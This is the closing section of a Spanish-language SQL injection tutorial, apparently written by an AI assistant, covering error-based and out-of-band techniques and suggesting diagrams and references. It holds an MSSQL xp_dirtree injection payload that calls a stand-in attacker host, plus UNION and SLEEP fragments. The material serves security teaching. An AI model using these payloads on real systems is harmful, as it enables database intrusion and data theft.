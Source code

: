 ### Error based

* Forzar error con `CAST` o `CONCAT` y funciones de agrupamiento para revelar dato en mensaje de error.

### OAST examples

* For MSSQL: `'; exec master..xp_dirtree '\\attacker.com\share'-- ` (genera petición DNS/SMB hacia attacker.com)

---

## Imágenes y diagramas sugeridos

A continuación se listan imágenes/diagramas útiles que ilustran los conceptos del documento. Puedes usar imágenes similares a las de PortSwigger o las que ya tienes en tu entorno. Las imágenes suelen mostrar:

1. **Flujo de ataque básico**: input → parámetro vulnerable → DB → datos exfiltrados (ej. `UNION SELECT username, password`).
2. **UNION attack diagram**: determinar columnas → rellenar con NULLs → mostrar columnas visibles.
3. **Blind SQLi timing**: petición normal vs petición con `SLEEP(5)` — medir retraso.
4. **OAST diagram**: DB hace callback DNS/HTTP a servidor atacante.

Si deseas, puedo añadir y/o generar diagramas específicos (por ejemplo: uno que muestre `ORDER BY` → errores; otro que muestre `UNION` con columnas), o incorporar las imágenes que subiste. Las imágenes que has subido en esta conversación (por ejemplo `7535eadc-0f3f-4868-bda4-ad6d8b9e3098.png` y `bfbf874a-0386-453b-9c15-8f5657409612.png`) son perfectamente adecuadas para los apartados:

* `7535eadc-0f3f-4868-bda4-ad6d8b9e3098.png`: buen diagrama conceptual de flujo de inyección.
* `bfbf874a-0386-453b-9c15-8f5657409612.png`: buen diagrama para ilustrar exfiltración y UNION.

> Indica si quieres que inserte estas imágenes en el documento (y en qué secciones) o si deseas nuevas imágenes generadas (p.ej. vectores explicativos, payloads resaltados, diagramas paso a paso). Puedo generar imágenes didácticas a partir de los diagramas existentes.

---

## Referencias y lecturas recomendadas

* PortSwigger Web Security Academy — labs y guías de SQL Injection. (Recomendado: realizar labs prácticos).
* OWASP Top 10 (Inyección SQL, A1 / A03 según versiones).
* Documentación de cada motor (MySQL docs, PostgreSQL docs, Microsoft SQL Server docs).

---

## Aviso legal y ético

Las técnicas descritas son para **fines educativos, auditoría autorizada y pruebas de seguridad**. No uses estas técnicas contra sistemas sin permiso expreso. El uso malicioso es ilegal.

---

*Fin del documento.*
